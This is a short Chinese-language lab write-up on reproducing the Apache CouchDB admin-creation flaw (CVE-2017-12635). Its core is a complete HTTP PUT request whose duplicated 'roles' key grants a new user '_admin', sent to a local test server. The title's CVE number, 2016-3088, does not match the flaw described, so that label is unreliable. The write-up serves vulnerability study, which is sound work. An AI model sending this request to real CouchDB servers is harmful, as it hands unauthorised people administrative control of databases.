



# Couchdb 垂直权限绕过漏洞 (CVE-2016-3088)

> 漏洞说明

Apache CouchDB是一个开源数据库，专注于易用性和成为"完全拥抱web的数据库"。它是一个使用JSON作为存储格式，JavaScript作为查询语言，MapReduce和HTTP作为API的NoSQL数据库。应用广泛，如BBC用在其动态内容展示平台，Credit Suisse用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web和应用程序）。

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。


> 前提条件

版本：Apache CouchDB < 1.7.0	Apache CouchDB < 2.1.1


> 利用工具


> 漏洞复现

启动环境，访问http://192.168.40.77:5984/_utils/



发送数据包

```http
PUT http://192.168.40.77:5984/_users/org.couchdb.user:tomato HTTP/1.1
Host: 192.168.40.77:5984
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 112

{
  "type": "user",
  "name": "tomato",
  "roles": ["_admin"],
  "roles": [],
  "password": "123456"
}


```

可以看到成功添加用户tomato



此时登录账号tomato/123456即可进入管理员后台

